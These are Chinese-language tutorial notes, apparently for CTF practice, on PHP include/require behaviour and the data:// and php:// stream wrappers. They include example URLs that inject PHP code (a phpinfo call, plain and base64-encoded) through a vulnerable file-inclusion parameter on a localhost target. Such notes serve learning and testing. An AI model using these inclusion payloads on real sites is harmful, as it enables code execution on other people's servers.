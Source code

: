 # include和require

include:有就包含,没有就跳过,之前包含过了也包含

require:有就包含,没有就报错,之前包含过了也包含

include_once:有就包含,没有就跳过,之前包含过了就不包含

require_once:有就包含,没有就报错,之前包含过了就不包含

# 

# php伪协议

## data协议

数据流封装器，以传递相应格式的数据。可以让用户来控制输入流，当它与包含函数结合时，用户输入的data://流会被当作php文件执行。

### 用法

```python
1、data://text/plain,
http://127.0.0.1/include.php?file=data://text/plain,<?php%20phpinfo();?>
 
2、data://text/plain;base64,
http://127.0.0.1/include.php?file=data://text/plain;base64,PD9waHAgcGhwaW5mbygpOz8%2b
```

### 实例1

```python
<?php
// 打印 "I love PHP"
echo  file_get_contents ( 'data://text/plain;base64,SSBsb3ZlIFBIUAo=' );
?>
```

### 实例2

```python
<?php
$fp    =  fopen ( 'data://text/plain;base64,' ,  'r' );
$meta  =  stream_get_meta_data ( $fp );

// 打印 "text/plain"
echo  $meta [ 'mediatype' ];
?>
```

## php://协议

ctf中经常使用的是`php://filter`和`php://input``php://filter`用于读取源码，`php://input`用于执行php代码
